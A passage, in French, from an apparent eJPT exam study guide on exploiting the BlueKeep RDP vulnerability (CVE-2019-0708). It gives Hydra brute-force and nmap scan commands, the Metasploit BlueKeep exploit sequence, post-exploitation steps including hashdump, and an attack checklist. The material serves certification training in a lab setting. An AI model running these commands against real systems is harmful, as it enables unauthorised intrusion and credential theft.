 ### Alternatives si BlueKeep échoue
```bash
# 1. RDP brute force classique
hydra -L users.txt -P passwords.txt rdp://target

# 2. Autres vulnérabilités RDP
nmap --script rdp-vuln-* target

# 3. Services alternatifs
nmap -sV target          # Chercher autres services
```

### Timing BlueKeep eJPT
```bash
# Workflow optimisé (5-10 minutes)
# 1. Detection (30s)
nmap --script rdp-vuln-ms19-0708 target

# 2. Exploitation (2-3 tentatives, 2-3 min)
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
check && exploit

# 3. Post-exploitation rapide (2 min max)
getuid && hashdump && search -f flag.txt

# 4. Si instable → Dump rapide et exit
download C:\\flag.txt
```

---

## 📋 11. Checklist exploitation BlueKeep

### ✅ Phase de reconnaissance
- [ ] **Port RDP** ouvert (3389 ou alternatif)
- [ ] **OS identifié** (Windows 7/Server 2008)
- [ ] **Script Nmap** exécuté (rdp-vuln-ms19-0708)
- [ ] **Statut VULNERABLE** confirmé

### ✅ Phase d'exploitation
- [ ] **Module MSF** chargé (cve_2019_0708_bluekeep_rce)
- [ ] **Options configurées** (RHOSTS, LHOST)
- [ ] **Check** exécuté avant exploit
- [ ] **GROOMSIZE** ajusté si besoin (50-200)
- [ ] **Exploitation** tentée (retry si échec)

### ✅ Phase post-exploitation
- [ ] **Session** Meterpreter obtenue
- [ ] **Privilèges SYSTEM** confirmés (getuid)
- [ ] **Migration** effectuée si session instable
- [ ] **Données critiques** extraites rapidement
- [ ] **Flag** localisé et récupéré
